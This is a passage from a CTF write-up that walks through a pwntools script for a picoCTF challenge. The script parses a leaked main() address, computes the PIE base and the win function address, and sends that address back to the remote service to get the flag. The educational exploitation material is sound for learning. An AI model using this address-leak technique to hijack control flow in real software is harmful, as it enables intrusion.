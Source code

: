 ```py
raw_data = p.recvline().decode()

log.info(f"Received:\n{raw_data}")
```

`.recvline` is one of the many methods availables to us with the `remote` class, letting us retreive one line (until a `\n`) sent by the remote server, as a binary string.

Note: pwntools uses a lot of binary strings, for input and for output. Failure to pass binary string will result in disgusting raw warnings displayed on screen.

```py
main_address = raw_data.strip().split(" ")[-1]
main_address = int(main_address.split("x")[-1], 16)

log.info(f"=== MAIN_ADDRESS: {hex(main_address)} ===")

base_address = main_address - main_offset

log.info(f"=== BASE_ADDRESS: {hex(base_address)} ===")

win_address = base_address + win_offset

log.info(f"=== WIN_ADDRESS:  {hex(win_address)} ===")

log.info(f"Received:\n{p.recv().decode()}")

log.info(f"Sending jump address")
```

Here, we are just parsing remote's output to retreive the `main_address` as an integer.
Once that's done, we'll calculate the `base_address`, and the `win_address` from it.

Note: the use of log.info is done to be consistent with pwntools' own logging. It is not required, and `print` could have been used here. But using logging instead of printing is a good practice.

```py
p.sendline(hex(win_address).encode())

log.info(f"=== FLAG ===\n{p.recvall().decode()}")
```

End of the script: we send the jump address back to the remote, in the expected format, and then we display to the screen the entire output (including the flag).

# Conclusion

PIE is a powerfull defense system, and definitely something you need to be aware of when exploiting low level binaries.

But, as all defense systems, it's not perfect, and if you are able to retreive (or "leak") the address of a function, you can win it over.

Now that you know how to exploit it, you just need to connect to picoCTF's instance of that challenge, and win that CTF !

Happy hacking <3
